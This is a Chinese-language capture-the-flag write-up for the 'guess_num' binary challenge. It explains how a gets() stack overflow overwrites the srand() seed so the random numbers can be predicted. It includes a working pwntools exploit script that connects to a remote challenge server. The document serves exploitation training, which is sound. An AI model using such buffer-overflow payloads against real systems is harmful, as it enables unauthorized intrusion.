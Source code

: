 第一步，使用IDA打开，使用F5插件打开，根据main函数，大致得出这是一个先调用srand()设置一个伪随机数种子，然后根据这个随机种子生成10个随机数，如果生成的随机数与输入的数字相同，则会调用sub_C3E()函数，成功拿到flag
第二步，发现危险函数gets函数，其参数是char v10，通过栈调用发现可以通过溢出的方式，覆盖srand()的参数seed。
第三步，这样我们就可以自己设置这个参数，再编程实现，使得输入的数字与guess_num程序生成的相同。在在线编辑器中编辑程序实现，生成伪随机数，与服务器交互比对。

1、Windows下和在Linux下生成的伪随机数是不一样的
2、具体实现：
(1). 通过垃圾字符覆盖var_30到seed：“a” * 0x20
(2). 使用p64()把种子（为了便于运算，本题选择1）按照64位的方式进行排列产生随机数
(3). 调用srand()生成随机数
(4). 利用循环多次输入进行比较，直到相等。

# /use/bin/python3
# -*- comding:utf8 -*-  
from pwn import *
from ctypes import *
sh = remote('220.249.52.133',30956)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

payload = 'A' * 32 + p64(1) 

sh.sendlineafter("name:",payload)
# get offset is 0x20,edit seed as 1 
libc.srand(1)
for i in range(10):        
    sh.recvuntil("number:")        
    sh.sendline(str(libc.rand()%6+1)) 
# print(str(libc.rand()%6+1)) 
sh.interactive()
